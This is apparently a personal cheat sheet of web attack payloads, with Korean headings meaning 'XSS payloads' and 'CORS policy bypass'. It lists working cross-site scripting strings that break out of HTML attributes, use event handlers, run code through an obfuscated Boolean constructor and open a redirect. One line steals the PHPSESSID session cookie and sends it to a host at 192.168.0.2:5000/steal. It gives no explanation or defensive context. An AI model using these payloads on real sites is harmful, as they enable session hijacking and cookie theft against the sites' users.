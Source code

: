 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
